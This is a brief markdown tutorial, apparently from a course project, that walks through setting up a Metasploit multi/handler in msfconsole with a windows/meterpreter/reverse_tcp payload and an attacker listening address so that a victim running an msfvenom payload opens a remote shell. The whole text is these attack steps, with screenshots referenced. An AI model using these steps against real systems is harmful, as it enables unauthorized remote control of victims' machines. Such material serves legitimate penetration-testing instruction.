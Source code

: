 # Using Meterpreter

In msfconsole, type **use exploit/multi/handler**, this will handle exploits launched outside of the framework, such as the payload we created using msfvenom.

Set the payload to meterpreter reverse shell **set payload windows/meterpreter/reverse_tcp**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/multihandler.png" width="700">

Set the lhost to the attacker's ip **set lhost [attacker ip]**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/options.png" width="700">

Run the payload by typing **run**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/run.png" width="700">

Now wait for the target to execute the payload created using msfvenom, once it is executed, it should look something like this.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/connected.png" width="700">

Now meterpreter is enabled and we have access to the target system.
